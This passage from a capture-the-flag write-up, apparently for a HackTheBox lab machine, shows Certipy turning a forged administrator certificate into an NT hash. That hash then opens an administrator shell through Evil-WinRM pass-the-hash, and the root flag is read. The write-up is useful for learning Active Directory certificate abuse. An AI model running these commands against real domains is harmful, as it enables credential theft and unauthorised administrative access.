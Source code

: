 I’ll use the certificate to get the administrator’s NTLM hash:

```

oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34

```

### Shell

The NLTM hash is all I need to get a shell over Evil-WinRM as administrator:

```

oxdf@hacky$ evil-winrm -i certified.htb -u administrator -H 0d5b49608bbce1751f708748f67e2d34
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And `root.txt`:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
43d7b635************************

```